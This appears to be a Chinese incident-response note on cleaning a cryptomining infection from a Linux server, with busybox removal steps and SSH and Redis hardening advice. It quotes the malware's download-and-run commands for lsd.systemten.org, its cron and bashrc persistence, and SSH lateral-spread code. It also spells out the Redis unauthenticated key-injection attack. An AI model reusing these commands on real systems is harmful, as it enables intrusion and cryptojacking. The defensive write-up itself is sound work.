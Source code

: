 ## 被挖矿入侵处理记录

1. 服务器一些操作后异常提示

   ````
   [1]+  完成                  ( curl -fsSL -m180 lsd.systemten.org || wget -q -T180 -O- lsd.systemten.org ) | sh > /dev/null 2>&1
   ````

   提取其中地址``lsd.systemten.org``，浏览器请求返回如下:

   ````
   export PATH=PATH:/bin:/usr/bin:/sbin:/usr/local/bin:/usr/sbin mkdir -p /tmp chmod 1777 /tmp echo "*/10 * * * * (curl -fsSL -m15 lsd.systemten.org||wget -q -T15 -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen(\"http://lsd.systemten.org\").read()')|sh"|crontab - cat > /etc/crontab </dev/null 2>&1 &" & done fi for file in /home/* do if test -d file; then if [ -f file/.ssh/known_hosts ] && [ -f file/.ssh/id_rsa.pub ]; then for h in (grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" file/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "(curl -fsSL lsd.systemten.org||wget -q -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen("http://lsd.systemten.org").read()')|sh >/dev/null 2>&1 &" & done fi fi done #
   		
   ````

2. 首先 ps、top命令异常，被篡改

   > 入nginx进程明明移动 ps-ef | grep nginx 返回确实空
   >
   > top命令展示内容也少了很多

3. 发现阿里云警告

   > 提示：挖矿程序

4. crontab中出现莫名其妙任务

   ````
   */10 * * * * (curl -fsSL -m15 lsd.systemten.org||wget -q -T15 -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen("http://lsd.systemten.org").read()')|sh
   ````

   并且 /etc/crontab中出现
   
   ````
   SHELL=/bin/bash
   PATH=/sbin:/bin:/usr/sbin:/usr/bin
   
   */10 * * * * root (curl -fsSL -m15 lsd.systemten.org||wget -q -T15 -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen("http://lsd.systemten.org").read()'||/usr/local/sbin/ea2a9852817e39)|sh
   ````
   
5. 删除以上内容后重启，发现又出现，怀疑在启动命令中隐藏东西 ``vim /etc/bashrc`` 

   ````
   ##
   (curl -fsSL -m180 lsd.systemten.org||wget -q -T180 -O- lsd.systemten.org)|sh >/dev/null 2>&1 &
   ##
   ````

   异常启动文件可能存在的目录

   ````
   /etc/rc.d/init.d/
   /etc/init.d/
   ````
   
6. 使用busybox查杀

## Busybox查杀病毒

* 安装解压工具

````
yum -y install bzip2
````

* 安装busybox

````
wget http://busybox.net/downloads/busybox-1.21.0.tar.bz2
tar -xvf busybox-1.21.0.tar.bz2
cd ./busybox-1.21.0
make defconfig
#注意，这里最好在相同操作系统的正常机器上进行静态链接
#防止动态链接还被挖矿病毒的动态库劫持，导致删除文件不成功
#如果条件不允许，第二点将会重点说明
make
make install
ln -s `pwd`/busybox /usr/bin/busybox
busybox|grep BusyBox |grep v
————————————————
版权声明：本文为CSDN博主「芽孢八叠球菌」的原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/u010457406/article/details/89328869
````

* 查杀异常进程

````
busybox ls -a /tmp |grep ds
...
busybox ls -a /usr/sbin |grep kerber
...
busybox ls -a /etc |grep ld.so.preload
...
busybox ls -a /usr/local/lib |grep libcry 
...
````

将上4条命令搜索出来的结果逐一精确删除，不要使用 ``rm -rf 什么什么*``方式删除，要具体名称，而且使用tab无法搜索到这些文件

* 查杀异常进程

````
busybox ps -ef | busybox grep -v grep | busybox grep 'kerberods'
busybox ps -ef | busybox grep -v grep | busybox grep 'khugepageds' 
````

### 病毒分析

````
(curl -fsSL -m180 lsd.systemten.org||wget -q -T180 -O- lsd.systemten.org)|sh >/dev/null 2>&1 &
````

````
该下载后的脚本主要操作有
1> 将指令添加到crontab中
2> kill掉同类挖矿进程
3> kill掉高耗资源的其他进程
4> 下载执行主恶意程序（这个未知）
5> 横向ssh传播
````

### 安全加固

1. SSH
  
   * 谨慎做免密登录.    
   * 不使用默认的22端口.    
   * 禁止root登录.    
   
2. Redis
  
   * 增加授权认证(requirepass参数).    
   * 尽量使用docker版本(docker pull redis).    
   * 隐藏重要的命令.
   * 启动redis使用redis专属用户，否则知道你redis密码的人同样可进入    
   * 或者禁止外部访问，绑定IP可改为127.0.0.1
   
   

> 我的按照入侵时间点估计是因为：redis未认证漏洞

禁止root登录，前提是你要有一个非root用户

vim /etc/ssh/sshd_config

````
PermitRootLogin = no
````

修改默认ssh端口22 比如改成33

vim /etc/ssh/sshd_config

````
port 33
````

重启sshd

````
systemctl restart sshd
````

__注意阿里云防火墙，同样最好关闭22端口和其他不需要对外的端口__

关于redis未认证漏洞防范

参考：https://www.cnblogs.com/xun0523/p/9804999.html

破解步骤

````
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
$ redis-cli -h 192.168.1.11
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
````

> 这里讲解下，这里设定了 crackit 的键值为公钥，并通过 redis 命令变更 Redis DB 文件及存放地点为默认 root 用户 SSH key 存放文件，并将键值重定向追加到远程文件 authorized_keys 的末尾，也就上传了公钥。
>
> 这样就可以成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized_keys 文件里

参考：http://www.alloyteam.com/2017/07/12910/